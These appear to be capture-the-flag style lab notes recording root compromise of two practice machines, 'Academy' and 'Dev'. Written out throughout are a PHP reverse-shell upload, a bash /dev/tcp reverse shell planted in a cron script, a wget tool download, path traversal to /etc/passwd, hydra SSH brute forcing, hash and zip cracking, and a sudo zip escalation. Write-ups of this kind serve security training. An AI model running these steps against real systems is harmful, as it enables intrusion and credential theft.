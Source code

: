 # Academy - 192.168.176.132

nmap
21,80

└─$ gobuster dir --url http://192.168.176.132  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
OR  
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ  -u http://192.168.176.132/FUZZ  


found anonymous login FTP server, on port 21  
Downloaded note.txt.. got username/and password  
password was : cd73502828457d15655bbd7a63fb0bc8  looks like a hash  
hash-identifier cd73502828457d15655bbd7a63fb0bc8  (lists as md5)
Cracked with : https://crackstation.net/  
password == student  

Logged into student portal with information from note.txt, 
Successfully logged in as http://192.168.176.132/academy/
credentials : 10201321 : student  

Abused profile picture section, allowed to upload any file  
created payload with /usr/share/webshells/php/php-reverse-shell.php  
updated profile picture @ http://192.168.176.132/academy/my-profile.php  
Browsed to profile, clicked profile pick, and reverse-shell connected    

Logged in as user : ***WWW-DATA***  

cat /etc/crontab  
found a script running every minute, /home/grimmie/backup.sh  
$ cat /etc/passwd | grep home  
grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash  

loaded linpeas.sh onto the server  
started python simple http server, hosting linpeas.sh  
python3 -m http.server  
downloaded file from target   
wget http://192.168.176.128:8000/linpeas.sh  
chmod +x linpeas.sh  
linpeas.sh  

identified password : 
╔══════════╣ Searching passwords in config PHP files
/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";  
/var/www/html/academy/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";  
tried SSH with grimmie user and new pass  
ssh grimmie@192.168.176.132  
password = "My_V3ryS3cur3_P4ss"  

Logged in..  
updated backup.sh with following :   
bash -i >& /dev/tcp/192.168.176.128/8888 0>&1  

## *reverse shell as root!  Success!!!*

# Dev - 192.168.176.133

```
$ sudo nmap -A -p- 192.168.176.133   

22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))

gobuster dir --url http://192.168.176.133  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt   
                                                                            
gobuster dir --url http://192.168.176.133:8080  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
http://192.168.176.133:8080/dev/  - Boltwire website
```

find CSSV 
Must register as a bolt user.
Once registered, we can add the following in the URL to retrieve files from server : 

https://www.exploit-db.com/exploits/48411

http://192.168.176.133:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd


jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash

hydra -l jeanpaul -P /usr/share/wordlists/metasploit/unix_passwords.txt  ssh://192.168.176.133:22 -t 4 -V  [[HYDRA]]

https://github.com/Cyber-Wo0dy/CVE-2023-46501
http://192.168.176.133:8080/dev/index.php?p=member.admin&action=data


password of bolt admin:  I_love_java

### checking NFS share/mount  
```└─$ showmount -e 192.168.176.133
Export list for 192.168.176.133:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
mkdir /tmp/mount
sudo mount -t nfs 192.168.176.133:/srv/nfs /tmp/mount 
```
[[NFS]]
found a file: save.zip
copied to local box
tried to unzip, but needs a password
crack with JOHN

```zip2john save.zip > zip.hash
john zip.hash   
java101          (save.zip)    

ssh jeanpaul@192.168.176.133 -i id_rsa
```
bad permissions..  
chmod 600 id_rsa  
now the login works..  

sudo -l  
lists /usr/bin/zip  

from GTFO ; 

```TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF```

From <https://gtfobins.github.io/gtfobins/zip/#sudo>   


# cat flag.txt
Congratz on rooting this box !